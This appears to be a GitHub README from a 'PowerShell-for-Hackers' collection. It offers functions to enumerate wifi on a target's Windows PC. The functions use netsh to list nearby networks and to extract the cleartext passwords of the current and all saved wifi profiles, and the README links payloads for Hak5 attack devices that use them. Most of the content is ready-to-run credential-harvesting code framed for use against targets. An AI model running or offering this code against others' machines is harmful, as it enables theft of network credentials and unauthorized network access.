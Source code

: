 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Wifi-Info

## Description

These functions will help you enumerate your targets wifi, and the wifi nearby

## The Function

### [Nearby Networks] 

This quick snippet will get you the wifi connections visible from your targets PC 

```
$NearbyNetworks = (netsh wlan show networks mode=Bssid | ?{$_ -like "SSID*" -or $_ -like "*Authentication*" -or $_ -like "*Encryption*"}).trim()
```

### [Get-CurrentNetwork] 

This first function will get you the SSID and Password the target PC is currently connected to and save it to the variable $CurrentNetwork

```
function Get-CurrentNetwork {

$pro = netsh wlan show interface | Select-String -Pattern ' SSID '; $pro = [string]$pro;$pos = $pro.IndexOf(':');$pro = $pro.Substring($pos+2).Trim()

$pass = netsh wlan show profile $pro key=clear | Select-String -Pattern 'Key Content'; $pass = [string]$pass;$passPOS = $pass.IndexOf(':');$pass = $pass.Substring($passPOS+2).Trim()

return "$pro	:	$pass"

} 

$CurrentNetwork = Get-CurrentNetwork

```

### [Get-AllNetworks] 

This function will get you a list of all the wifi networks your target has joined and their passwords and save it to the variable $Networks

```
Function Get-Networks {
# Get Network Interfaces
$Network = Get-WmiObject Win32_NetworkAdapterConfiguration | where { $_.MACAddress -notlike $null }  | select Index, Description, IPAddress, DefaultIPGateway, MACAddress | Format-Table Index, Description, IPAddress, DefaultIPGateway, MACAddress 

# Get Wifi SSIDs and Passwords	
$WLANProfileNames =@()

#Get all the WLAN profile names
$Output = netsh.exe wlan show profiles | Select-String -pattern " : "

#Trim the output to receive only the name
Foreach($WLANProfileName in $Output){
    $WLANProfileNames += (($WLANProfileName -split ":")[1]).Trim()
}
$WLANProfileObjects =@()

#Bind the WLAN profile names and also the password to a custom object
Foreach($WLANProfileName in $WLANProfileNames){

    #get the output for the specified profile name and trim the output to receive the password if there is no password it will inform the user
    try{
        $WLANProfilePassword = (((netsh.exe wlan show profiles name="$WLANProfileName" key=clear | select-string -Pattern "Key Content") -split ":")[1]).Trim()
    }Catch{
        $WLANProfilePassword = "The password is not stored in this profile"
    }

    #Build the object and add this to an array
    $WLANProfileObject = New-Object PSCustomobject 
    $WLANProfileObject | Add-Member -Type NoteProperty -Name "ProfileName" -Value $WLANProfileName
    $WLANProfileObject | Add-Member -Type NoteProperty -Name "ProfilePassword" -Value $WLANProfilePassword
    $WLANProfileObjects += $WLANProfileObject
    Remove-Variable WLANProfileObject
    return $WLANProfileObjects
}
}

$Networks = Get-Networks
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  [Project Link](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)


<p align="right">(<a href="#top">back to top</a>)</p>
